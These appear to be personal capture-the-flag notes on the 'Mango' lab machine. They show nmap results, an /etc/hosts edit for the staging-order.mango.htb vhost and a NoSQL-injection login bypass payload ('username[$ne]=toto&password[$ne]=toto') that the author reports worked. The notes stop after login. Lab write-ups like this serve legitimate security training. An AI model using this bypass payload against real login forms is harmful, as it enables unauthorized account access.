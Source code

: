 22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel


sudo bash -c 'echo "10.10.10.162 staging-order.mango.htb mango.htb" >> /etc/hosts'

http:
![](2021-02-22-15-43-40.png)
![](2021-02-22-15-53-20.png)


staging-order.mango.htb -
![](2021-02-22-15-44-17.png)


username: MrR3boot

/analytics.php
![](2021-02-22-15-46-00.png)

works with IP VHOST:
![](2021-02-22-15-47-26.png)



## NoSQL injection login
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection


username[$ne]=toto&password[$ne]=toto

logged in to:
![](2021-02-22-16-25-00.png)